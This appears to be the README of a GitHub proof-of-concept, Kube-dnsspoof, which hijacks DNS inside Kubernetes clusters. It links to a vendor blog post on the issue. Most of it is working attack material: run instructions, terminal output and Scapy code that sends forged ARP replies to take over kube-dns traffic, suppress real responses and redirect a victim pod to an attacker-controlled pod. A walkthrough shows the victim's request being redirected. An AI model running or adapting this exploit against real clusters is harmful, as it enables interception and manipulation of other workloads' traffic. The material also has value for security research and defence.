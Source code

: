 # Kube-Dnsspoof

Kube-dnsspoof is a POC for DNS spoofing in kubernetes clusters.
This exploit runs with minimum capabilities, on default installations of kuberentes.
This repository contains all files and related code for running this exploit.  

The following video demonstrates how onw can use this to intercept traffic for specifc domains in a cluster:
[![asciicast](https://asciinema.org/a/250310.svg)](https://asciinema.org/a/250310)
Further read on this subject can be done on [this blog post](https://blog.aquasec.com/dns-spoofing-kubernetes-clusters)

## Prerequisites
A Kubernetes cluster


## Run the exploit
  
First, create the pods by:
    
```bash
$ kubectl create -f pods/
pod/hacker created     
pod/victim created   
```

After the pod was created, exec into the hacker pod. it will contain the exploit and hosts file inside the /dnsspoof folder.

```zsh
$ kubectl exec -it hacker zsh
➜  hacker /dnsspoof ls
exploit.py  hosts
➜  hacker /dnsspoof 
```

Next, edit the hosts file to contain your spoofed domains.
The script will proxy all DNS requests to the real kube-dns pod, except for the entries in the hosts file.  

Example for successful run of the exploit:
```zsh
➜  hacker /dnsspoof ./exploit.py
[*] starting attack on indirect mode
Bridge:  172.17.0.1 c0:0f:fe:eb:4b:e0
Kube-dns:  172.17.0.4 02:42:bb:76:74:f8

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

#### timeouts
When proxying alot of requests, the code can hang. to control this, you can pass a timeout via `--forward-timeout`

The steps of the exploit:
* Deciding whether it can run
* Discovering relevant mac/ip addresses
* ARP spoofing the bridge (and kube-dns in case of direct attack mode)
* DNS proxy requests, and spoofing relevant entries
* Restoring all network on CTRL+C interrupt


root@victim:/# cat /etc/nsswitch.conf | grep hosts
hosts:          files dns

NAME     READY   STATUS    AGE     IP       
hacker   1/1     Running   7h41m   10.42.0.11
victim   1/1     Running   7h22m   10.42.0.12
fake     1/1     Running   7h22m   10.42.0.13


root@victim:/# cat /etc/resolv.conf 
search scenario-3.svc.cluster.local svc.cluster.local cluster.local
nameserver 10.43.0.10
options ndots:5

def get_kube_dns_pod(self):
    kubedns_service_ip = self.get_kube_dns_svc_ip()
    dns_info_res = srp1(Ether() / IP(dst=kubedns_service_ip) / UDP(dport=53) / DNS(rd=1,qd=DNSQR()), verbose=0)
    kubedns_pod_mac = dns_info_res.src 
    self_ip = dns_info_res[IP].dst 
    ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="{}/24".format(self_ip)),timeout=4, verbose=0)
    for a in ans:
        mac = a[1][ARP].hwsrc
        ip = a[1][ARP].psrc
        # ip matches the mac of kube-dns
        if mac == kubedns_pod_mac:
            return NIC(ip, mac)


def arp_spoofing():
    """ Handles interception kube-dns pod and a specific victim"""
    def intercept_dns_requests():
        # spoofing bridge that we are kube-dns pod
        send(ARP(op=2, pdst = k8s_net.cbr0.ip, psrc = k8s_net.kubedns_pod.ip, hwdst = k8s_net.cbr0.mac), iface=interface, verbose=0)

    def block_real_dns_response(to):
        # spoofing kube-dns traffic to not reach victim due to ip_forwarding - DOS
        send(ARP(op=2, pdst = k8s_net.kubedns_pod.ip, psrc = to.ip, hwdst = k8s_net.kubedns_pod.mac, hwsrc="00:00:00:00:00:00"), iface=interface, verbose=0)

    while True:
        intercept_dns_requests()
        block_real_dns_response(to=victim_pod)
        time.sleep(1)


[+] 10.42.0.12 <- KUBE-DNS response b'example.com.scenario-3.svc.cluster.local.' - 3
[+] 10.42.0.12 <- KUBE-DNS response b'example.com.scenario-3.svc.cluster.local.' - 3
[+] 10.42.0.12 <- KUBE-DNS response b'example.com.svc.cluster.local.' - 3
[+] 10.42.0.12 <- KUBE-DNS response b'example.com.svc.cluster.local.' - 3

root@hacker:/dnsspoof# ls
exploit.py  hosts
root@hacker:/dnsspoof# vi hosts 
google.com. 10.42.0.13

[+] Spoofed response to: 10.42.0.12 | b'example.com.' is at 10.42.0.13
[+] Spoofed response to: 10.42.0.12 | b'example.com.' is at 10.42.0.13

# kubectl exec -it fake bash -n scenario-3
root@fake:/# echo "hello lil hawk" | nc -l -p 80

# kubectl exec -it victim bash -n scenario-3
root@victim:/# curl example.com
<!doctype html>
<html>
<head>
    <title>Example Domain</title>
    ......

# kubectl exec -it hacker bash -n scenario-3
root@hacker:/dnsspoof# ls
exploit.py  hosts
root@hacker:/dnsspoof# python exploit.py 
[*] starting attack on indirect mode
Bridge:  10.42.0.1 16:11:89:12:e6:86 (1)
Kube-dns:  10.42.0.2 ae:5a:e5:ef:f6:19 (2)

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop

root@victim:/# curl example.com
hello lil hawk

# kubectl get pods -n scenario-3 -o wide